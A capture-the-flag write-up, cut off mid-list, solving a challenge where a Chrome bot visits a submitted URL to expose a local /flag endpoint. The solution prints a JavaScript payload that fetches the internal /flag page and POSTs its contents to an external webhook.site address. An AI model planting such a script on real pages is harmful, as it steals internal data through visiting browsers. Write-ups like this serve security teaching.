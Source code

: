 # Description
I heard you like flags, so I launched Chrome with a lot of flags again so you can get your flag!
This time the flag is localhost:1337/flag, and the bot will visit your URL!

# Solution
The challenge is similiar to the so-many-flags but now instead of providing the HTML directly, we need to provide a URL to a page, to which the server sends the request.
```javascript
app.post('/submit', (req, res) => {
  const { url } = req.body;

  if (!url) {
    return res.status(400).send('No URL provided');
  }

  let parsed = new URL(url);
  if (parsed.protocol !== 'http:' && parsed.protocol !== 'https:') {
    return res.status(400).send('Invalid URL');
  }
  ...
}
```

The server now also has `/flag` endpoint, which can be only accessed from the running instance. So the goal is pretty simple, create a website, which will make a request to `/flag` endpoint and return the result to us. For this I have used the same script from the previous challenge:
```javascript
<script>
    fetch("http://127.0.0.1/flag")
        .then(response => response.text())
        .then(text => {
            fetch("https://webhook.site/d439b603-a9e7-4158-9448-079ee2255c89", {
                method: "POST",
                body: text
            });
        });
</script>
```

Now the only thing is to create a server which the target can reach and get the exploit. I've explored 2 options
1. I found another [webhook website](https://webhook.site/), which can serve GET and POST responses, which can be configured![alt text](image.png)